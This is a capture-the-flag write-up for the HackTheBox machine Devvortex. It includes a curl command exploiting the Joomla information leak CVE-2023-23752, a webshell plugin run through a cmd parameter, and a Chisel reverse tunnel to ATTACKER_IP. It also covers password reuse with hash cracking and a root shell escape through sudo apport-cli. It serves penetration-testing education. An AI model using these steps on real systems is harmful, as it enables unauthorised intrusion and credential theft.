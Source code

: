 # HackTheBox - Devvortex

I started the usual portscan.

![Screenshot0](./screenshots/0.png)

We see one web server open and one SSH server.

I did some basic enumerations and while vHost fuzzing with FFUF I found a subdomain.

`ffuf -H "Host: FUZZ.devvortex.htb"  -c -w ./subdomains-top1million-110000.txt -u http://devvortex.htb -fc 302`

![Screenshot1](./screenshots/1.png)

So let's move on to the subdomain and see.

![Screenshot2](./screenshots/2.png)

A quick click on  __Wappalyzer__ addon shows me that we are dealing with the CMS __Joomla__.

![Screenshot3](./screenshots/3.png)

Now, however, I wanted to know the exact version.

The exact version can be found under:  `/administrator/manifests/files/joomla.xml`.

![Screenshot4](./screenshots/4.png)

Now I looked for vulnerabilities and quickly discovered that this Joomla version is affected by an __Unauthenticated information disclosure__.


More detailed information can be found here: [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce).

With the following command I got the access data for Joomla:


`curl -v "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true"`

![Screenshot5](./screenshots/5.png)

I logged in.

![Screenshot6](./screenshots/6.png)

I know how to set up a shell with wordpress, but with Joomla this was something new for me.

I found this [Webshell Plugin](https://github.com/p0dalirius/Joomla-webshell-plugin) very practical.

Under `System` -> `Extensions` I installed the plugin by uploading the .zip file and under the path `/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id` I could now send commands.

![Screenshot7](./screenshots/7.png)

Well, a reverse shell is more comfortable and I established a reverse shell from the webshell from which I could now better enumerate the system.

## www-data -> logan

First of all, I wanted to take a closer look at the MYSQL database and I tunneled the port to me using __Chisel__.

__Chisel Usage:__

- On Attacker Machine: `./chisel server -p 8000 --reverse`
- On Victim Machine: `chisel client <ATTACKER_IP>:8000 R:3306:127.0.0.1:3306`

I logged in with the access data from __lewis__ __(password reuse)__ and got the __bcrypt__ hashes from Joomla.

![Screenshot8](./screenshots/8.png)

The hash of the user __logan__, who also has an account on the linux system, was cracked and I logged in via SSH as that user and got the first flag.

![Screenshot9](./screenshots/9.png)

![Screenshot10](./screenshots/10.png)

## logan -> root

The privilege escalation to root was pretty straightforward.

A look at the `sudo -l` output shows us that we can run `/usr/bin/apport-cli` as any user.

![Screenshot11](./screenshots/11.png)

Now I simply tried out the menus to see if I could get into a `less` scrolldown or similar with some option.

With `sudo -u root /usr/bin/apport-cli -f` I got into this menu:

![Screenshot12](./screenshots/12.png)

At the option `4: Sound/audio related problems` I came to a point where I could enter `:!sh` and I was root.

![Screenshot13](./screenshots/13.png)

